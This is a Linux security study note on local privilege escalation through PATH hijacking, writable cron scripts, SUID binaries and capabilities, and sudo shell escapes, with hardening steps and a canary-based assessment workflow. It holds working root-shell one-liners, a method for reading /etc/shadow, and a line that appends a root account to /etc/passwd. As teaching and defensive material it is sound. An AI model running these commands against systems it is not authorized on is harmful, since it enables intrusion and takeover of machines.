

# 👑 Linux Advanced Mechanics & Privilege Escalation

> [!abstract] Master Note of [[Linux]]
> This is where a low-privilege shell becomes **root**. Four classic mechanisms — the **`$PATH`** variable, **cron** jobs, **SUID/SGID** binaries, and **`sudo`** rights — are convenience features that turn into escalation paths when misconfigured. Understanding them makes you both the attacker who finds them and the admin who closes them.

> [!warning] Authorized Simulation / Defensive Testing only
> Every technique below is for **systems you own or are authorized to test** (CTFs, labs, sanctioned engagements). They are documented so you can **find and fix** the misconfiguration. Each ends with the hardening that defeats it.

## Parent Learning Order
Linux Introduction & Distributions -> Linux CLI & Core Commands -> Linux I-O Redirection & Piping -> Linux File System Hierarchy & Editors -> Linux Boot Process & systemd -> Linux Permissions & Process Management -> Linux Memory & Storage Internals -> Linux Networking, Transfers & Curl -> Linux Security Controls & Hardening -> Linux Observability, Logging & Forensics -> Linux Advanced Mechanics & Privilege Escalation -> Linux Kernel Internals -> Linux Documentation & Note-Taking

## Start from zero — privilege boundaries & trust paths

**Privilege** is authority to perform an operation. **Privilege escalation** occurs when a subject gains authority beyond its intended role by crossing a flawed trust boundary. On Linux, the boundary may involve user IDs, groups, capabilities, SUID execution, `sudo`, service managers, scheduled tasks, writable configuration, namespaces, or the kernel. The vulnerability is rarely “a command”; it is a trusted higher-privilege component consuming something a lower-privilege subject can influence.

Separate enumeration, hypothesis, validation, impact, and remediation. **Enumeration** collects facts without assuming exploitability. A **trust path** names the lower-privilege-controlled object, the privileged consumer, the trigger, and the resulting authority. **Validation** proves the path with an approved, reversible canary. A finding is incomplete until ownership, preconditions, reproducibility, evidence, cleanup, and the control that should break the path are documented.

Prerequisites are permissions, processes, shell resolution, systemd, cron, and effective identity. Work only in a disposable lab or explicitly authorized scope. Never substitute destructive payloads for proof. Begin every exercise with `id`, scope confirmation, and a rollback plan; finish with evidence that the canary is removed and the corrected control prevents recurrence.

## First: enumerate (the first 5 minutes on a foothold)
```shell-session
$ id; whoami; sudo -l                    # who am I, and what can I run as root?
$ uname -a; cat /etc/os-release          # kernel + distro → match kernel exploits
$ find / -perm -4000 -type f 2>/dev/null # SUID-root binaries
$ getcap -r / 2>/dev/null                # file capabilities (cap_setuid = win)
$ cat /etc/crontab; ls -la /etc/cron.*   # root-scheduled jobs
$ find / -writable -type d 2>/dev/null   # where can I write?
```
Automated by **LinPEAS** / **linux-smart-enumeration**, but knowing the manual commands is what lets you understand *why* a finding matters.

## Mechanism 1 — `$PATH` hijacking
`$PATH` is a colon-separated list the shell searches **left → right** to resolve a bare command name:

![[lnx_path_resolution.svg]]

**The abuse:** if a **root-run** program (SUID binary or cron job) calls another command by its *bare name* — `system("ls")` instead of `/bin/ls` — and you can prepend a directory you control, your malicious `ls` runs as root:
```shell-session
$ echo $PATH
/usr/local/bin:/usr/bin:/bin
$ echo -e '#!/bin/bash\n/bin/bash -p' > /tmp/ls   # our fake "ls"
$ chmod +x /tmp/ls
$ export PATH=/tmp:$PATH                           # /tmp/ls now wins the search
$ /opt/vuln_suid_binary                            # it calls `ls` → runs OUR ls as root
# whoami
root
```
**Hardening:** call binaries by **absolute path** in privileged scripts; never put writable dirs (or `.`) in root's `$PATH`.

## Mechanism 2 — Cron jobs
**cron** runs commands on a schedule. Enumerate every location:
```shell-session
$ crontab -l                 # the current user's jobs
$ cat /etc/crontab           # the system-wide table (runs as root!)
$ ls -la /etc/cron.d /etc/cron.daily /etc/cron.hourly
```
A `/etc/crontab` line is `m h dom mon dow  USER  COMMAND`:
```
*/5 * * * *   root   /opt/scripts/backup.sh     # runs backup.sh as ROOT every 5 min
```
**The abuse:** if that root cron job runs a script (or a directory) **you can write to**, you own root on the next tick:
```shell-session
$ ls -l /opt/scripts/backup.sh
-rwxrwxrwx 1 root root ...          # world-writable → jackpot
$ echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' >> /opt/scripts/backup.sh
# wait for the 5-minute tick, then:
$ /tmp/rootbash -p                 # SUID bash → root shell
# id → uid=1000 euid=0(root)
```
Also watch for **wildcard injection** (a cron `tar *`/`rsync` in a writable dir) and **`PATH`-relative** commands inside the script (combine with Mechanism 1). **Hardening:** cron scripts owned by root, `chmod 700`, absolute paths inside.

## Mechanism 3 — SUID / SGID and the `euid`
Normally a process runs with **your** identity. A **SUID** binary runs with its **owner's** identity — its **effective UID (euid)** becomes the owner's, often **root** — no matter who launches it. That's how `passwd` edits root-only `/etc/shadow` while you run it. Misused, it hands root away:

![[lnx_suid_flow.svg]]

### Find the attack surface, then match to GTFOBins
```shell-session
$ find / -perm -4000 -type f 2>/dev/null     # SUID-root binaries
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/find                                # ← a SUID that can spawn a shell = win
$ find / -perm -2000 -type f 2>/dev/null     # SGID binaries
```
Cross-reference each hit with **GTFOBins** and match it to the function you need (Shell / SUID / Sudo / Capabilities / File read / File write).

### Worked escalations
```shell-session
# SUID find — ‑p preserves the elevated euid:
$ find . -exec /bin/sh -p \; -quit          # → root shell

# SUID file-read hands you /etc/shadow (then crack offline):
$ /usr/bin/base64 /etc/shadow | base64 -d

# Capability cap_setuid on python:
$ getcap -r / 2>/dev/null | grep cap_setuid
/usr/bin/python3 = cap_setuid+ep
$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'

# Writable /etc/passwd → add a root user:
$ openssl passwd -1 -salt x pass                # → $1$x$...
$ echo 'r00t:$1$x$...:0:0::/root:/bin/bash' >> /etc/passwd && su r00t
```

## Mechanism 4 — `sudo` misconfigurations
```shell-session
$ sudo -l
User crook may run: (root) NOPASSWD: /usr/bin/vim, /usr/bin/awk
$ sudo vim -c ':!/bin/sh'                     # editor breakout → root
$ sudo awk 'BEGIN{system("/bin/sh")}'         # awk one-liner
```
Any `sudo`-able program that can **shell out** (`vim`,`less`,`find`,`awk`,`python`,`tar`,`nmap`) is an escalation. Also check for old **`sudo` CVEs** (e.g. Baron Samedit) via `sudo --version`. **Hardening:** never `NOPASSWD` shell-escape binaries; keep `sudo` patched; drop `env_keep` for `LD_PRELOAD`/`LD_LIBRARY_PATH`.

## Hardening: close every door above
- **Baseline & diff** SUID/SGID: `find / -perm -4000 -type f 2>/dev/null | sort > baseline.txt`, alert on changes.
- **Strip** needless SUID (`chmod u-s`); prefer narrow **capabilities** over blanket SUID.
- **Mount** user-writable filesystems (`/tmp`,`/home`, removable) **`nosuid`** so SUID bits there are ignored.
- **Absolute paths** in every privileged script; **`chmod 700`** cron/root scripts.
- **Monitor** with `auditd` for execs of abusable binaries by unexpected users → feeds centralised logging.

## Identity transitions at the syscall boundary

Linux tracks real, effective, saved-set, and filesystem user IDs. The real UID records the invoking identity; the effective UID normally drives access checks; the saved-set UID permits a carefully designed privileged program to drop and later regain its original effective identity. SUID changes credentials during `execve`, subject to mount options, tracing state, `no_new_privs`, and security policy. Shells may deliberately drop privilege unless invoked in a preserve-privilege mode, which is why identical-looking SUID experiments can behave differently.

Capabilities split traditional root authority into bits carried by process sets: permitted, effective, inheritable, bounding, and ambient. File capabilities can populate these sets at execution. `CAP_SETUID` enables identity changes; `CAP_DAC_READ_SEARCH` bypasses many read/search checks; `CAP_SYS_PTRACE` enables powerful process inspection; `CAP_SYS_ADMIN` covers so many operations that it is effectively near-root. User namespaces complicate the picture because a process may be UID 0 inside a namespace yet map to an unprivileged host UID.



## A disciplined authorized assessment workflow

Privilege escalation is a hypothesis-driven review of trust transitions, not random payload execution. Begin with identity and context: `id`, groups, namespace mappings, capability sets, mount flags, and mandatory-access policy. Enumerate policy-controlled paths next: `sudo -l`, systemd unit definitions, timers, cron tables, executable search paths, SUID/SGID inventory, file capabilities, writable service configuration, and root-owned processes that consume user-writable data.

Validate each candidate with the smallest reversible proof. For a writable root-run script, a timestamped canary file owned by root proves code execution without creating an interactive shell. For PATH resolution, a harmless wrapper that records `id` and exits demonstrates the flaw. For an overbroad capability, show the protected operation and stop. Maintain a command log and cleanup list.

```shell-session
$ id; cat /proc/self/uid_map; grep -E 'NoNewPrivs|Cap(Prm|Eff|Bnd)' /proc/self/status
uid=1001(analyst) gid=1001(analyst) groups=1001(analyst),998(docker)
         0          0 4294967295
NoNewPrivs: 0
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 000001ffffffffff
$ findmnt -no TARGET,OPTIONS /tmp
/tmp rw,nosuid,nodev,noexec,relatime
```

Systemd timers must be reviewed alongside cron. `systemctl list-timers --all`, `systemctl cat UNIT`, and `systemctl show UNIT -p User -p Group -p Environment -p ExecStart` reveal who runs what and with which environment. Writable unit files, drop-ins, environment files, or executables can cross privilege boundaries after reload/restart. Do not modify service definitions outside explicit authorization.

Sudo policy evaluation includes command path, arguments where configured, run-as identity, host, tags, environment handling, and included files. A permitted interpreter, editor, pager, package manager, or program that loads plugins may expose a secondary execution path. The root cause is excessive functional authority, not the particular escape string. Remediation should authorize a purpose-built wrapper with fixed arguments and a minimal environment.

## Common false positives & blockers

- A SUID file on a `nosuid` mount does not gain identity.
- A script's SUID bit is ignored on Linux; the interpreter's behavior and execution path matter instead.
- A capability outside the namespace's bounding set may be unusable.
- `no_new_privs` prevents `execve` from gaining privilege through SUID or file capabilities.
- A writable file is not exploitable unless a privileged principal consumes it in an unsafe way.
- A cron wildcard is dangerous only when option-like filenames reach a command whose parser treats them as options.
- Containers may display UID 0 while lacking host mappings, capabilities, devices, or writable host paths.

## Troubleshooting false positives & blocked trust paths

An interesting permission is not automatically exploitable. Reconstruct the complete execution path: which privileged principal consumes the object, what trigger reaches it, which environment and working directory apply, whether arguments are fixed, which mount and LSM controls intervene, and whether the result crosses a meaningful authority boundary. Use `namei -l`, `getfacl`, `getcap`, `sudo -l`, `systemctl cat/show`, scheduler definitions, and process credentials to prove each edge.

Common false positives include an SUID binary that permanently drops privilege before processing controllable data, a writable directory excluded from the privileged process's `PATH`, a cron file that is never loaded, a `sudo` rule constrained by safe arguments, a capability neutralized by `no_new_privs`, or a container root identity mapped to an unprivileged host range. Record the blocker as a control, not as a failed payload.

```shell-session
$ namei -l /opt/backup/bin/archive
f: /opt/backup/bin/archive
drwxr-xr-x root root /
drwxr-xr-x root root opt
drwxr-x--- root backup backup
drwxr-xr-x root root bin
-rwxr-xr-x root root archive
$ sudo -l
(root) /opt/backup/bin/archive --verify /srv/incoming/*.manifest
```

The wildcard, called binary, and input parser require analysis, but no write edge is yet proven. Validate with a benign canary under the Rules of Engagement, capture effective identity and logs, remove the canary, apply the narrow remediation, and demonstrate that the same precondition no longer crosses the boundary.

## Hands-on lab — prove & remediate four trust failures

Build disposable lab services rather than altering the host. Create: a root-owned scheduled script that calls a bare command with a controlled PATH; a SUID demonstration program that prints real/effective IDs; a copied interpreter with a narrow test capability; and a sudo rule for a wrapper that initially accepts arbitrary arguments. For each, document prerequisite, minimal canary proof, expected identity, cleanup, and least-privilege fix. Repeat after remediation and show the proof fails.

Expected canary evidence:

```text
$ stat -c '%U:%G %A %n' /run/privesc-lab/proof
root:root -rw-r--r-- /run/privesc-lab/proof
$ cat /run/privesc-lab/proof
authorized-lab uid=0 euid=0 source=path-resolution
$ findmnt -no OPTIONS /run/privesc-lab
rw,nosuid,nodev,noexec,relatime
```

## Security implications

Most local escalation is legitimate functionality crossing an unintended trust boundary: a scheduler trusts writable content, policy delegates a general interpreter, a binary preserves excess identity, or a capability grants more kernel authority than the service needs. Reliable assessment identifies the exact consumer and credential transition. Reliable remediation removes that transition, constrains environment and arguments, applies `nosuid`/`noexec` where appropriate, narrows capabilities, and verifies the fix with the original minimal proof.

### Crook → Operator → Root checkpoint

- **Crook:** enumerate sudo, SUID/SGID, capabilities, PATH, cron, timers, and writable privileged inputs.
- **Operator:** explain real/effective/saved IDs and capability sets, eliminate false positives, and produce a reversible canary proof.
- **Root:** model namespace and `execve` credential transitions, chain only authorized conditions, remediate the underlying trust boundary, and verify that privilege can no longer be gained.

---
> 🔼 Up: [[Linux]]
